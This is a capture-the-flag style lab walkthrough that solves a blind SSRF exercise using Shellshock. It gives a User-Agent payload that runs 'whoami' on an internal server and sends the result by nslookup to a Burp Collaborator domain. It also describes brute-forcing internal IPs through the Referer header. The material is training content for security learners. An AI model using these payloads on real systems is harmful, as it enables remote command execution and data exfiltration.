




# Lab: Blind SSRF with Shellshock exploitation

> Lab Objective: use this functionality to perform a blind SSRF attack against an internal server in the 192.168.0.X range on port 8080. In the blind attack, use a Shellshock payload against the internal server to exfiltrate the name of the OS user.

- Load any product page, then inspect the request.

- Start Burp Collaborator, then place Burp Collab domain as the `Referer` header value, then view Burp Collab Tab.

- Inspect the HTTP Request, you'll notice that the User-Agent was included in the request headers.
  

- Therefore, in order to obtain OS User:

  - Use this payload as the value of User-Agent header:
    `() { :; }; /usr/bin/nslookup $(whoami).ep76oge1k1a3g5j3i8xhohkmrdx4lv9k.oastify.com`
  - Set the value of the `Referer` header as:
    `http:http://192.168.0.x:8080`

- Then send this request to this to the Intruder to Brute Force on the last octal of the IP set in the `Referer` header.
  

- Start the attack, then view Burp Collab Tab, after few seconds you'll notice Two DNS Queries, both of them contain the User-Agent that includes:

  - OS User, which is the value of this Payload:
    `() { :; }; /usr/bin/nslookup $(whoami)`
  - Burp Collab Domain.

- Extract the first part of the User-Agent Sent, that will be the OS user, and submit it, therefore the lab is solved.
  

---
